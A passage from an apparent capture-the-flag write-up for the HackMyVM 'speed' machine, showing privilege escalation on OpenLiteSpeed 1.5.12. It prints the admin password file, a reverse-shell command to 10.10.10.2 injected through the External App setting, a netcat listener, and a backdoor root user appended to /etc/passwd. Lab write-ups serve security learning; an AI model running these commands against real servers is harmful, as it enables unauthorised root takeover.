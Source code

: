 4.0K drwxr-xr-x  2 root   root    4.0K Feb 17  2021 gdata
4.0K drwxr-xr-x  2 root   root    4.0K Feb 17  2021 lib
4.0K drwxr-xr-x  2 root   root    4.0K Jan 22 21:24 logs
4.0K drwxr-xr-x  2 root   root    4.0K Feb 17  2021 lsrecaptcha
4.0K drwxr-xr-x  2 root   root    4.0K Feb 17  2021 modules
4.0K drwxr-xr-x  2 root   root    4.0K Feb 17  2021 php
4.0K drwx------  2 lsadm  lsadm   4.0K Jan 23 03:55 phpbuild
4.0K drwxr-xr-x  3 root   root    4.0K Feb 17  2021 share
4.0K drwxr-xr-x  3 nobody nogroup 4.0K Feb 17  2021 tmp
www-data@speed:/usr/local/lsws$ cat adminpasswd
cat adminpasswd
WebAdmin user/password is admin/MjE0MGU2
www-data@speed:/usr/local/lsws$
{% endhighlight %}

Now, we have  **OpenLiteSpeed 1.5.12**. There is an exploit described [here](https://www.exploit-db.com/exploits/49483) for version **1.7.8**, but it also works for our version. Using the webapp, we can go to Server Configuration > External App and edit the (only) entry which is for LiteSpeed SAPI App. In *command* we enter our shell with this syntax:

{% highlight shell %}
fcgi-bin/lsphp5/../../../../../bin/bash -c 'bash -i >& /dev/tcp/10.10.10.2/1234 0>&1'
{% endhighlight %}

and in *Run as User* and *Run as Group* we put **root**. This gets us a shell with GID of 0, but not UID. We also need to save the changes and run a 'graceful' restart to fire the shell. 

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/speed]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.67] 53350
bash: cannot set terminal process group (26708): Inappropriate ioctl for device
bash: no job control in this shell
nobody@speed:/usr/bin$ id
id
uid=65534(nobody) gid=0(root) groups=0(root)
{% endhighlight %}

But with that, we can overwrite */etc/passwd*:

{% highlight shell %}
id
uid=65534(nobody) gid=0(root) groups=0(root)
nobody@speed:/usr/bin$ echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
nobody@speed:/usr/bin$ su root2
su root2
Password: mrcake
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls -lash
total 32K
4.0K drwx------  3 root root 4.0K Feb 17  2021 .
4.0K drwxr-xr-x 18 root root 4.0K Feb 17  2021 ..
4.0K -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4.0K -rwx--x--x  1 root root 1.9K Feb 17  2021 flag.sh
4.0K drwxr-xr-x  3 root root 4.0K Feb 17  2021 .local
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-------  1 root root   18 Feb 17  2021 root.txt
4.0K -rw-r--r--  1 root root   66 Feb 17  2021 .selected_editor
{% endhighlight %}

And that's that.
